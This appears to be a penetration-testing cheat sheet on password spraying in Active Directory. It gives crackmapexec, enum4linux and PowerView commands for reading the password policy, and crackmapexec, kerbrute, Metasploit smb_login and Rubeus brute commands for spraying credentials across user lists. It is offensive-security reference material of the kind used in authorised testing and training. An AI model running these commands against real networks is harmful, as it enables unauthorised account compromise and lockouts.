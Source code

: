 #### Password Spraying

Password Spraying -Let's try the most common passwords with each of the discovered users, maybe some user is using a bad password (keep in mind the password policy!) or could login with empty password: 

##### 1. Get Password Policy 

**Notice that you could lockout some accounts if you try several wrong passwords (by default more than 10).**

If you have some user credentials or a shell as a domain user you can get the password policy with:

CME
```bash
crackmapexec <IP> -u 'user' -p 'password' --pass-pol
```

enum4linux
```bash
enum4linx -u 'username' -p 'password' -P <IP>
```

Powerview
```bash
(Get-DomainPolicy)."SystemAccess" #From powerview
```

#### 2. Exploit

Some automatic tools

CME
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

kerbrute(often fails, last resort)
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
# Can also tell if username is valid
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman
```

msf
```
msf6> use scanner/smb/smb_login
```


Rubeus:
```ps
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
